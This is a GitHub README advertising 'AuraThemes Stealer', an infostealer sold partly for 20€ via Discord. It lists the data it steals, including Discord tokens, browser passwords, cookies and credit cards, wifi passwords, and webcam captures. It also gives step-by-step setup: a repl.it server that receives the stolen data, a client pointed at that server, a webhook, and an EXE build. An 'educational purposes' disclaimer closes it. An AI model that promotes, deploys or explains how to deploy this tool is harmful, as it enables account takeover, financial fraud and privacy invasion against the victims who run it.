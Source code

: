# <a id="home"></a> AuraThemes - Stealer

## Littleraly One Of The Best Stealer

---

#### [Discord](https://discord.gg/5BJa778F7B) - [Build](#salepute) - [Turorial](#tutorial) 

AuraThemes Stealer: Steal discord tokens and get privileged access!

Our powerful AuraThemes Stealer is a tool designed to help get Discord tokens to access user accounts. With the built-in API, you don't run the risk of your Webhook disappearing. <br>
<br>

the best version of a (stealer), in this case it is AuraThemes, with the best form of an OP version

✅: Premium Features (20€ - Join Discord)

## Features
- Grabs Discord Token
- Discord Password (even when it's changed)
- IP Address (Public)
- Discord New Email (when Changed)
- Discord New Password (when Changed)
- Alert When MFA is Enabled
- Alert When MFA is Disabled
- Mac Address (✅)
- UUID (✅)
- Windows Product Key (✅)
- Local IP (✅)
- Wifi Passwords (✅)
- Bot Builder (✅)
- Alert When Paypal Is Added (✅)
- Credit Card When Added (✅)
- Browsers Passwords & Cookies (✅)
- More PC Infos (✅)
- Webcam & Screenshot (✅)
- Steam (✅)
- Add To Startup (✅)
- AutoFill (✅)
- Browsers Credit Cards (✅)
- Stored Discord Backup Codes (✅)
- BookMarks (✅)
- Browsers History (✅)
- Bypass Discord Token Protection (✅)
- Minecraft Grabber (✅)
- In Dev And More...

## <a id="salepute"></a> Free Version Installation

When Done: 
```bash
git clone https://github.com/k4itrun/AuraTokenGrabber
```
```bash
cd AuraTokenGrabber
```
```bash
npm i -g
```
```bash
Setup Your desktopServer/server.js in repl.it
In the desktopClient/client.js replace https://yourapi.com by your api
```
```js
10 | apiurl = "http://yourapi.com" // Put Your API URL Here in desktopClient/client.js
```
```bash
node desktopClient/client.js
```
```bash
build EXE: npm run build
```

---

### <a id="tutorial"></a> TUTORIAL USE Mode of use

Create a new project on repl.it to create the API server. This is where you will receive the data sent by the client. (Just copy the contents of [Server api](https://raw.githubusercontent.com/k4itrun/AuraTokenGrabber/main/desktopServer/server.js) and paste it into your repl.it index file). Once you do that, you will have the receiving API set up.

> Add your webhook URL in

```js
12 | x = { //added new webhook URL
    webhookURL: "URL"
    }
```

> Now, in the client section, go to (client) and change line 10 in client.js file:

```js
10 | apiurl = "http://yourapi.com" // Put Your API URL Here in desktopClient/client.js
```

> Replace it with the URL of your previously created API server on repl.it.

With this, everything should be set up correctly, and it should work by running `node client.js`.

### THIS SCRIPT was made for Educational purposes
[Home](#home)

## README Spanish soon...

*⚠️: I AM NOT **RESPONSIBLE** FOR THE MISUSE OF THIS Script, Nor of the bad use that they give it*
